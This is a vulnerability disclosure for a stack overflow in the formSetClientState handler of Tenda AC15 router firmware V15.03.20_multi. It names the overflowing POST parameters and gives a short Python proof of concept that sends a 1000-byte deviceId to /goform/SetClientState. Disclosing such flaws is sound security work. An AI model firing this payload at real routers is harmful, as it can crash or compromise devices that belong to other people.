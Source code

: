## Overview

- Firmware download website: https://www.tendacn.com/us/download/detail-3851.html

## Affected version

AC15V1.0 V15.03.20_multi

## Vulnerability details

The Tenda AC15V1.0 V15.03.20_multi firmware has a stack overflow vulnerability in the `formSetClientState` function. The `v9, v11, v10` variable receives the `deviceId, limitSpeed, limitSpeedUp` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `deviceId, limitSpeed, limitSpeedUp` can trigger this security vulnerability.

![image-20240314171612600](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314171612600.png)

![image-20240314171533301](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314171533301.png)

![image-20240314171552572](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314171552572.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetClientState"
payload = b"a"*1000

data = {'limitEn':1,"deviceId": payload}
# data = {'limitEn':1,"limitSpeed": payload}
# data = {'limitEn':1,"limitSpeedUp": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240314171654837](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314171654837.png)
